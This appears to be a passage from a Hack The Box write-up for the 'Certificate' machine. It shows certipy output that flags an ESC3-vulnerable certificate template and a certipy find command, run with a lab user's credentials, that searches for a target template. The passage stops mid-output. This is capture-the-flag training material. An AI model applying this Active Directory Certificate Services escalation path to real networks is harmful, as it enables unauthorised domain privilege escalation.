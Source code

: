 ```
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Owner Principals          : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Dacl Principals           : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Property Enroll           : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
    [+] User Enrollable Principals      : CERTIFICATE.HTB\Domain CRA Managers
    [!] Vulnerabilities
      ESC3                              : Template has Certificate Request Agent EKU set.
```

certipy finds a template that is vulnerable to ESC3.
This is because the Delegated-CRA template can be used to issue Enrollment Agent certificates, which is the first prerequisite for ESC3.
Next, we need to find a target certificate template that allows agent enrollment.

```
# find target template
certipy find \
        -u Lion.SK@certificate.htb -p '!QAZ2wsx' \
        -dc-ip 10.129.249.89 -text \
        -enabled -stdout
...[SNIP]...
  1                                                                                                                                                                                                      
    Template Name                       : SignedUser                                                                                                                                                     
    Display Name                        : Signed User                                                                                                                                                    
    Certificate Authorities             : Certificate-LTD-CA                                                                                                                                             
    Enabled                             : True                                                                                                                                                           
    Client Authentication               : True                                                                                                                                                           
    Enrollment Agent                    : False                                                                                                                                                          
    Any Purpose                         : False                                                                                                                                                          
    Enrollee Supplies Subject           : False                                                                                                                                                          
    Certificate Name Flag               : SubjectAltRequireUpn                                                                                                                                           
                                          SubjectAltRequireEmail                                                                                                                                         
                                          SubjectRequireEmail                                                                                                                                            
                                          SubjectRequireDirectoryPath                                                                                                                                    
```